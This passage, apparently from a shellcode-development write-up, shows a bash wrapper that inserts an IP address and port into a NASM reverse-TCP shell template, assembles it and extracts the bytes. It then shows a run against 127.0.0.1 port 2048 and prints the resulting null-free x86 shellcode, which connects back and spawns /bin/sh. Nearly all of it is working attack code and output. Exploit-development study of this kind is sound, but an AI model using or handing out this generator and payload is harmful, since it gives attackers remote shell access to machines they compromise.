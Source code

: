 ```bash

# Converting IP in hex and little endian representation
HEXFMTIP1=$([ ${IP1} -ne 0 ] && echo `printf "0x%x" ${IP1}` || echo dl)
HEXFMTIP2=$([ ${IP2} -ne 0 ] && echo `printf "0x%x" ${IP2}` || echo dl)
HEXFMTIP3=$([ ${IP3} -ne 0 ] && echo `printf "0x%x" ${IP3}` || echo dl)
HEXFMTIP4=$([ ${IP4} -ne 0 ] && echo `printf "0x%x" ${IP4}` || echo dl)

# for debugging purpose
echo "----------------------------"
echo "[*] HEXFMTPORT:${HEXFMTPORT}"
echo "[*] HEXFMTPORT1:${HEXFMTPORT1}"
echo "[*] HEXFMTPORT2:${HEXFMTPORT2}"
echo "[*] HEXFMTIP1:${HEXFMTIP1}"
echo "[*] HEXFMTIP2:${HEXFMTIP2}"
echo "[*] HEXFMTIP3:${HEXFMTIP3}"
echo "[*] HEXFMTIP4:${HEXFMTIP4}"
echo "----------------------------"
echo

# Replacing port and ip patterns
# Generating a new file source and compiling
sed "s/PORT1/${HEXFMTPORT1}/" ${FILE} > ${NASM_FILENAME} && \
sed -i "s/PORT2/${HEXFMTPORT2}/" ${NASM_FILENAME} && \
sed -i "s/IP1/${HEXFMTIP1}/" ${NASM_FILENAME} && \
sed -i "s/IP2/${HEXFMTIP2}/" ${NASM_FILENAME} && \
sed -i "s/IP3/${HEXFMTIP3}/" ${NASM_FILENAME} && \
sed -i "s/IP4/${HEXFMTIP4}/" ${NASM_FILENAME} && \
./compile.sh ${FILE%.*} && \
objdump -d ${FILE%.*}|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```
  
Trying with a port (2048 = 0x0800) and IP (127.0.0.1) which are generating some null bytes provides the following:  
```bash
./wrapper.sh 127.0.0.1 2048 ./shell_reverse_tcp.template 
----------------------------
[*] HEXFMTPORT:0800
[*] HEXFMTPORT1:0x08
[*] HEXFMTPORT2:dl
[*] HEXFMTIP1:0x7f
[*] HEXFMTIP2:dl
[*] HEXFMTIP3:dl
[*] HEXFMTIP4:0x1
----------------------------

[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
"\x31\xdb\xf7\xe3\xb0\x66\xb3\x01\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\x52\xc6\x04\x24\x7f\x88\x54\x24\x01\x88\x54\x24\x02\xc6\x44\x24\x03\x01\x66\x52\xc6\x04\x24\x08\x88\x54\x24\x01\x66\x6a\x02\x89\xe3\x6a\x10\x53\x57\x31\xdb\xf7\xe3\xb0\x66\xb3\x03\x89\xe1\xcd\x80\x89\xfb\x31\xc9\xb1\x02\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80"
```
